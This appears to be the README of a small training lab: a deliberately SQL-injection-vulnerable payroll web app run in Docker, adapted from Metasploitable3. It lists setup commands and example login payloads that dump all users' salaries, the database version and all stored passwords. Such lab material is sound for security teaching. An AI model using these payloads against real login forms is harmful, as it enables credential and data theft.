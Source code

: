 # UPCI_Payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Project Instructions

Install the project requirements on your choice of operating system, including:

- Docker
- Docker Compose plugin

Run using either of the following:

- `make run`
- `docker compose up --build`

Open web browser and visit:

- `localhost:8080`

Clean the Docker environment (after making changes):

- `make clean`

## Example Payloads

1. Normal login to get users salary:
    - `username`: `jim_james`
    - `password`: `VictoryDance!`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT NULL,NULL,NULL,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`: `' UNION SELECT username,password FROM users#`
    - `password`: `anythingyouwant`
